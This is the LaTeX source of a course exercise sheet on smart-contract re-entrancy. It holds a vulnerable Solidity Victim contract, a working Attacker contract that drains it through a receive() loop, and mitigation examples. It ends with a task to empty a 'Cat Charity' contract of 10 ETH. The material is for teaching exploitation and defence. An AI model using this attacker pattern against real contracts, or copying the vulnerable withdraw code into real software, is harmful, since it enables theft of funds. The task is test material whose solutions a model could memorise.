\documentclass[12pt]{article}
\usepackage[utf8]{inputenc}
\usepackage{hyperref}
\usepackage{listings}
\usepackage{xcolor}
\usepackage{geometry}
\usepackage{graphicx} % For including graphics
\usepackage{minted} % For advanced code listings
\usepackage{listings-solidity}  % Include Solidity highlighting


% Define a custom minted style (optional)
\usemintedstyle{colorful} % You can choose from various styles like 'monokai', 'tango', 'colorful', etc.

% Custom color setup
\definecolor{bashtextcolor}{RGB}{0, 0, 0} % Define black color

% Define a new command for inline code using minted
\newcommand{\codeinline}[1]{\mintinline{text}{#1}}

\geometry{a4paper, margin=1in}

\title{Smart Contracts Exercise 05: \\ Re-Entrancy}
\author{}
\date{}

% Define a new command for inline code with a dark background
\newcommand{\codeblack}[1]{%
  \texttt{\colorbox{black!7}{\textcolor{black}{#1}}}%
}

% Define a new command for inline code with a dark background
\newcommand{\codegrey}[1]{%
  \texttt{\colorbox{black!4}{\textcolor{black}{#1}}}%
}

% Define custom colors (optional)
\definecolor{myURLColor}{RGB}{0, 102, 204} % Example: A shade of blue

\hypersetup{
    colorlinks=true,        % Enable colored links
    linkcolor=blue,         % Color for internal links (e.g., \ref, \cite)
    citecolor=blue,         % Color for citations
    filecolor=magenta,      % Color for file links
    urlcolor=myURLColor     % Color for external URLs
}

% Define a style for code listings
\lstdefinestyle{mystyle}{
    backgroundcolor=\color{lightgray!20},   
    commentstyle=\color{green!50!black},
    keywordstyle=\color{blue},
    numberstyle=\tiny\color{gray},
    stringstyle=\color{red},
    basicstyle=\ttfamily\footnotesize,
    breakatwhitespace=false,         
    breaklines=true,                 
    captionpos=b,                    
    keepspaces=true,                 
    numbers=left,                    
    numbersep=5pt,                  
    showspaces=false,                
    showstringspaces=false,
    showtabs=false,                  
    tabsize=2
}

\lstset{style=mystyle}
% Adding package for header and footer
\usepackage{fancyhdr}
\pagestyle{fancy}

% Define header and footer
\fancyhf{} % Clear current settings
\fancyhead[L]{Smart Contracts 05} % Left header
\fancyhead[R]{\thepage} % Right header with page number

\renewcommand{\headrulewidth}{0.4pt} % Line below header
% \renewcommand{\footrulewidth}{0.4pt} % Line above footer

\begin{document}

\maketitle
\section{Introduction}

Re-entrancy is one of the most damaging vulnerabilities in Ethereum's history. This well-documented type of attack gained notoriety in 2016 with the infamous \href{https://en.wikipedia.org/wiki/The_DAO}{DAO hack}. Re-entrancy occurs when an attacker calls a vulnerable contract before the previous call completes, leading to unexpected states or unauthorized fund transfers. In this exercise, you will learn how to identify and exploit various types of re-entrancy attacks, as well as implement proper mitigation strategies.

\subsection*{Prerequisites}

Ensure that you have already installed the following on your system:

\begin{itemize}
    \item \textbf{Node.js} - \url{https://nodejs.org/en/}
    An open-source, cross-platform, back-end JavaScript runtime environment that runs on the V8 engine and executes JavaScript code outside a web browser. 
    \item \textbf{NPM}: Node Package Manager, which comes with Node.js.
\end{itemize}

Open your terminal and run the following commands to verify the installations:

\begin{minted}[bgcolor=gray!5, fontsize=\footnotesize]{bash}
$ node -v
$ npm -v
\end{minted}

Both commands should return the installed version numbers of Node.js and NPM respectively. Node.js provides the runtime environment required to execute JavaScript-based tools like Hardhat, while NPM is used to manage the packages and dependencies needed for development. It is recommended that you use NPM 7 or higher.

% For the purposes of this exercise, you will need an Infura API key and a configured wallet. If you do not have this set up yet, we recommend going through the Smart Contracts Exercise 01: Hello, Blockchain World! where everything is explained. Ensure that configuration variables are set for your Hardhat projects. You can verify this by running:

% \begin{minted}[bgcolor=gray!5, fontsize=\footnotesize]{bash}
% $ npx hardhat vars get INFURA_API_KEY
% $ npx hardhat vars get SEPOLIA_PRIVATE_KEY
% \end{minted}

\subsection*{Project Set Up}

To get started, visit the following \href{https://gitlab.fel.cvut.cz/radovluk/smart-contracts-exercises/-/tree/main/05-Re-Entrancy/task/task-code}{GitLab repository} and clone it to your local machine. This repository contains a template in which you will complete this exercise. After you clone the repository, start with the following command within your project folder:

\begin{minted}[bgcolor=gray!5, fontsize=\footnotesize]{bash}
$ npm install
\end{minted}

\section{Re-Entrancy Attacks}

A re-entrancy attack is a technique where an external call is used to re-enter the same function or another function in a way that disrupts the expected flow or state changes. Despite being well-known, this vulnerability remains prevalent. For more information, refer to this \href{https://github.com/pcaversaccio/reentrancy-attacks?tab=readme-ov-file}{Historical Collection of Reentrancy Attacks}. There are several types of re-entrancy attacks, including single-function re-entrancy, cross-function re-entrancy, cross-contract re-entrancy, cross-chain re-entrancy, and read-only re-entrancy. The basic prerequisite for a reentrancy attack is that the vulnerable contract makes an external call and allows the attacker to exploit the not-yet-updated state of the vulnerable contract during this call.

\subsection{Single-Function Re-Entrancy}

This is the simplest example of reentrancy that you might encounter. Study the code and try to understand how it works. Then replicate this attack in the \href{https://remix.ethereum.org/?#activate=solidity&url=https://github.com/radovluk/unbreakable-vault/contracts/reentrancy01.sol&lang=en&optimize=false&runs=200&evmVersion=null&version=soljson-v0.8.28+commit.7893614a.js}{prepared file in REMIX IDE}.

\begin{figure}[H]
\centering
\begin{minipage}{0.45\textwidth}
  \centering
  {\footnotesize
  \begin{tabular}{l}
  \textbf{Step 1:} Attacker.attack() \\
  $\downarrow$ \\
  \textbf{Step 2:} Victim.deposit() \\
  \quad balances[attacker] $\mathrel{+}= $ msg.value \\
  $\downarrow$ \\
  \textbf{Step 3:} Attacker.attack() calls Victim.withdraw() \\
  $\downarrow$ \\
  \textbf{Step 4:} Victim.withdraw() execution: \\
  \quad 1. Read balance (amount) \\
  \quad 2. Send funds via \texttt{call(msg.sender, amount)} \\
  $\downarrow$ \\
  \textbf{Step 5:} Funds arrive at Attacker \\
  \quad triggers \texttt{receive()} function \\
  $\downarrow$ \\
  \textbf{Step 6:} Attacker.receive() checks: \\
  \quad if (victim.balance $>$ initialDeposit) 
  \\ then call Victim.withdraw() \\
  $\downarrow$ ... \\
  \textbf{Step 7:} Reentrancy Loop: drain funds \\
  $\downarrow$ ... \\
  \textbf{Step 8:} In the last \texttt{withdraw()} call \\
  balances[attacker] is finally set 0 \\
  \end{tabular}
  }
\end{minipage}\hfill
\begin{minipage}{0.45\textwidth}
  \centering
  
\includegraphics[width=\textwidth]{reentrancy.pdf}
\end{minipage}
\caption{Single-Function Re-Entrancy Attack}
\label{fig:reentrancy}
\end{figure}

\begin{lstlisting}[language=Solidity, caption=Single-Function Re-Entrancy Vulnerable Contract]
  contract Victim {
      mapping(address => uint) private balances;
  
      function withdraw() public {
          uint amount = balances[msg.sender];
          (bool success, ) = msg.sender.call{value: amount}("");
          require(success);
          balances[msg.sender] = 0;
      }
  
      function deposit() public payable {
          balances[msg.sender] += msg.value;
      }
  }
\end{lstlisting}
  
\begin{lstlisting}[language=Solidity, caption=Single-Function Re-Entrancy Attacker Contract]
  contract Attacker {
      Victim victim;
      uint256 private initialDeposit;
  
      constructor(address _vulnerable) {
          victim = Victim(_vulnerable);
      }
  
      function attack() public payable {
          initialDeposit = msg.value;
          victim.deposit{value: msg.value}();
          victim.withdraw();
      }
  
      receive() external payable {
          if (address(victim).balance > initialDeposit) {
              victim.withdraw();
          }
      }
  }
\end{lstlisting}

% \subsection{Cross-Function Re-Entrancy}

% \textbf{Cross-function re-entrancy} involves two (or more) functions \textit{within the same contract} that can be called in a sequence leading to undesired behavior. For example, \codeinline{function A} might update some state or do a partial operation, then call \codeinline{function B} that triggers an external call back into \codeinline{function A} (or some other function) before the first operation is completed in a consistent manner.

% \begin{lstlisting}[language=Solidity, caption=Cross-Function Re-Entrancy Example]
% pragma solidity ^0.8.0;

% contract CrossFunctionVictim {
%     mapping(address => uint256) public balances;

%     // Suppose there's a "lock" mechanism updated in function A
%     bool internal locked = false;

%     function functionA() public {
%         require(!locked, "Already locked");
%         locked = true;

%         // Some partial operations
%         balances[msg.sender] += 1;

%         // Call functionB which eventually leads to an external call
%         functionB(); 

%         // More operations that expect to run after functionB
%         locked = false; 
%     }

%     function functionB() public {
%         // External call that could trigger a fallback
%         (bool success, ) = msg.sender.call{value: 0}("");
%         require(success, "External call failed");
%     }
% }
% \end{lstlisting}

% If an attacker carefully crafts the external call in \codeinline{functionB}, they can re-enter \codeinline{functionA} (or other internal functions) before the state is finalized (e.g., \codeinline{locked = false} is reset). This can lead to double-counting or bypassing intended checks. Although less common, this pattern can arise in complex contracts with multiple states and external calls.

% \subsection{Cross-Contract Re-Entrancy}

% \textbf{Cross-contract re-entrancy} occurs when two or more contracts call each other in a cycle. For instance:

% \begin{enumerate}
%     \item Contract \codeinline{A} calls a function in contract \codeinline{B}.
%     \item Contract \codeinline{B}'s function (or fallback) calls back into contract \codeinline{A}.
% \end{enumerate}

% If contract \codeinline{A} is not designed to handle re-entrancy safely (i.e., by updating state after sending Ether or not guarding repeated calls), attackers can exploit that circular calling path to create an inconsistent state.

% \begin{lstlisting}[language=Solidity, caption=Cross-Contract Re-Entrancy Example]
% pragma solidity ^0.8.0;

% contract ContractA {
%     bool public locked;

%     function callB(address _b) external {
%         // Some partial logic
%         locked = true;
%         B(_b).doSomething(); 
%         // More logic here that depends on 'locked'
%         locked = false;
%     }
% }

% contract B {
%     function doSomething() external {
%         // Re-enter ContractA
%         ContractA(msg.sender).callB(address(this));
%         // If 'locked' isn't handled properly, this re-entry can cause issues.
%     }
% }
% \end{lstlisting}

% In such a scenario, contract \codeinline{A} may not expect \codeinline{callB} to be invoked again while it is still executing.

\subsection{Re-Entrancy Mitigations}

\subsubsection*{Checks-Effects-Interactions Pattern}

It is recommended to follow CEI pattern in your contracts. CEI stands for:

\begin{enumerate}
    \item \textbf{Check} conditions
    \item \textbf{Effects} update internal state
    \item \textbf{Interactions} perform external calls
\end{enumerate}

\begin{lstlisting}[language=Solidity]
function withdraw() public {
    // 1. Checks
    uint amount = balances[msg.sender];
    require(amount > 0, "Nothing to withdraw");

    // 2. Effects
    balances[msg.sender] = 0;

    // 3. Interactions
    (bool success, ) = payable(msg.sender).call{value: amount}("");
    require(success, "Transfer failed");
}
\end{lstlisting}

\noindent
By setting the balance to zero before sending Ether, you prevent the attacker from withdrawing more than once during the same call flow.

\subsubsection*{Mutex / Re-Entrancy Locks}

A simple boolean flag, commonly known as a “\codeinline{locked}” flag or a “\codeinline{mutex},” can prevent re-entrancy if checked properly:

\begin{lstlisting}[language=Solidity]
bool private locked = false;

modifier noReentrant() {
    require(!locked, "No re-entrancy");
    locked = true;
    _;
    locked = false;
}

function withdraw() public noReentrant {
    uint amount = balances[msg.sender];
    (bool success, ) = payable(msg.sender).call{value: amount}("");
    balances[msg.sender] = 0;
    require(success, "Transfer failed");
}
\end{lstlisting}

\noindent
Note: the example above still remains vulnerable to cross-function reentrancy attacks.

\section{Task}

\subsection{Task 1: Cat Charity Hijinks}

The \emph{Cat Charity} was supposed to fund the most adorable meow-a-thon in history. Generous donors (like the deployer) have already chipped in a hefty 10 ETH. You (the player), on the other hand, starts with a modest 1 ETH and a gleam in their eye. After the owner unexpectedly cancels the campaign, refunds are open—\emph{wide open}, as it turns out. 

\medskip
\noindent
\textbf{Your Mission:}
\begin{itemize}
    \item Empty the charity's balance, snatching the full 10 ETH for yourself.
    \item End up with more than your initial 1 ETH, turning your purr-less pockets into a chonky Ether stash.
\end{itemize}

\noindent
Code your solution in the \texttt{test/CatCharity.js} file. Verify your solution by running the following command:

\begin{minted}[bgcolor=gray!5, fontsize=\footnotesize]{bash}
$ npm run catcharity
\end{minted}

\end{document}
